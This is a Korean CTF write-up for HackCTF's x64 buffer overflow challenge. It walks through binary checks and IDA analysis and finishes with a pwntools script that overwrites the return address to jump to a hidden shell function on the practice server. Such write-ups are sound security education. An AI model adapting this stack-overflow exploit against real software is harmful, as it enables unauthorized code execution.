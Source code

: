 **HackCTF - x64 Buffer Overflow**

| layout | title                                 | auther   | categories | tags           |
| ------ | ------------------------------------- | -------- | ---------- | -------------- |
| post   | HackCTF - x64 Buffer Overflow Writeup | Y3oj4eng | writeup    | writeupwargame |



# Analysis

---

`file`명령어를 통해 바이너리의 정보를 획득한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ file 64bof_basic 
64bof_basic: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=f36fc5ac99f79e7cfa367880978afc9a5b4367d7, not stripped

```

**기존에 풀어왔던 문제들과는 다르게 `64 bit` ELF 프로그램이다.**

`checksec` 모듈을 이용해 `binary`에 적용된 `mitigation`을 확인한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ checksec 64bof_basic 
[*] '/home/mac/Desktop/hackCTF/64bof_basic'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

오... `amd`기반의 구조이며 `RELRO`와 `NX` 보호기법이 적용되었다. (~~이전 문제들과는 다르게 험난할 것으로 예상된다.~~)

자, 일단 실행시켜본다!

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ ./64bof_basic 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

바이너리를 실행시키면 사용자로부터 입력을 받으며 입력을 받은 문자열을 `Hello` 문자열에 덧붙혀 출력한다.

한번의 분기도 없이 입력 -> 출력의 절차임으로 예상된다.

코드를 분석하기위해 `IDA`를 통해 바이너리를 열었다.

![image](https://user-images.githubusercontent.com/33051018/75684364-ff5b7b00-5cdb-11ea-93e7-c473903aea1c.png)

??? ``callMeMaybe` 라는 수상한 이름의 함수가 존재한다.

일단은 존재를 기억해놓고 `main`을 분석하도록 한다.

![image](https://user-images.githubusercontent.com/33051018/75684545-57927d00-5cdc-11ea-8bfc-539ea501a597.png)

`main`의 구성은 정말 매우 간단했다.

`scanf` 함수를 통해 `s`변수에 값을 입력받는다. 

`strlen` 함수를 통해 `s`변수에 저장된 데이터의 길이를 확인하여 `v5`변수에 저장한다.

이후 `s`변수를 출력한다.

`s`변수는 메인함수의 베이스포인터인  `rbp`로 부터 `0x110`만큼 떨어진 곳에 위치하며 `scanf`함수를 통해 입력을 받기 때문에 `BOF` 취약점이 존재한다.

이를 통해 `main`함수가 끝날때 돌아가는 `return address`를 덮을 수 있다.

여기서 `return address`를 덮어씌우기 위해 쉘을 실행시켜줄만한 무언가가 필요한데, 

앞서 확인헀다시피 `NX` 보호기법이 적용되어 쉘코드를 기입할만한 영역이 마땅치않다.

아까 분석 초반에 확인했던 `callMeMaybe` 함수를 살펴본다.

![image](https://user-images.githubusercontent.com/33051018/75685876-a93c0700-5cde-11ea-89b7-7335081f3b89.png)

아주 좋은 함수다. ~~바람직~~

`scanf`함수가 끝나고 복귀하는 지점을 `callMeMaybe` 함수의 주소로 덮어씌워 `RIP`흐름을 조작한다.

# exploit

---

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3004)
#p = process('./64bof_basic')
callmemaybe_addr = 0x0000000000400606

payload = 'A'*0x118		# dummy : 0x110 + 8 (64bit SFP) bytes
payload += p64(callmemaybe_addr)

p.sendline(payload)
p.interactive()
```



